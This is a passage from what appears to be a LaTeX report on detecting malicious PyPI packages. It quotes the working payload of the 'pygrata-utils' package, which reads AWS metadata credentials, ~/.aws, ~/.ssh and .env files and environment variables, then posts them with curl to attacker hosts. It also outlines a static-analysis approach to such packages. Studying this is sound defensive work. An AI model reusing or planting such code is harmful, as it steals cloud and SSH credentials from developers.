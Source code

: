 \begin{lstlisting} [caption={Malicious lines of code in \textit{pygrata-utils} package}, captionpos=b]
acmd = 'curl -m 3 http://169.254.169.254/latest/meta-data/iam/security-credentials/'
bcmd = 'cd ~/.aws && cat credentials'
ccmd = 'env'
cdcmd = 'cd ~/.ssh && ls && cat *'
ipcmd = 'ip addr show'
catenvcmd = 'cd ~/ && ls .env* && cat .env*'


result = subprocess.getoutput(acmd)
rolename = str(result).split('instance-profile/')[1].split('",')[0]
accmd = 'curl -m 3 http://169.254.169.254/latest/meta-data/iam/security-credentials/' + rolename + '/'
getcred = subprocess.getoutput(accmd)
all3 = "metadata \n ----------------------------------------- \n \n" + result + getcred
result2 = subprocess.getoutput(bcmd)
all4 = " \n \n a \n ----------------------------------------- \n \n" + result2
hostname = socket.gethostname()
username = getpass.getuser()
cwd = os.getcwd()
ipadd = subprocess.getoutput(ipcmd)
res3 = {'hostname':hostname,'cwd':cwd,'username':username,'IP':ipadd}    
all5 = "\n \n details \n ----------------------------------------- \n \n " + str(res3)
result3 = subprocess.getoutput(ccmd)
all6 = "\n \n en \n ----------------------------------------- \n \n " + result3
result4 = subprocess.getoutput(cdcmd)
all7 = "\n \n ssh \n ----------------------------------------- \n \n " + result4
all8 = str(all3) + str(all4) + str(all5) + str(all6) + str(all7)    
filename1 = str(random.randint(0, 99999999999)) + '.txt'
filename2 = str(filename1)
    
subprocess.getoutput("curl -X POST http://graph.pygrata.com:8000/upload -F 'files=@" + filename2 + "'")
subprocess.getoutput('curl -X POST http://graphs.pygrata.com/api.php -d "textdata=' + all8 + '"')
\end{lstlisting}

A article by Fortinet shows a different approach used by attackers, where a package, \textit{httpssp}, has a Base 64 encoding so the source code is not immediately identifiable.

This means that, on the one hand, there is a great diversification regarding the type, method and goal of these attacks. On the other hand, it is quite difficult to find source code to explore since the majority of known malicious packages have already been taken down by PyPI and their code is not available. This massively impacts the success of the code analyzing tool to be built, for it has to address each method of attack.

\section{Analyzing Static Code}
The three addressed types of attack were the ones mentioned in the last section: subprocesses installing other packages, requesting and posting from "hardcoded" URLs and Base 64 decoding the code and performing the first two again.

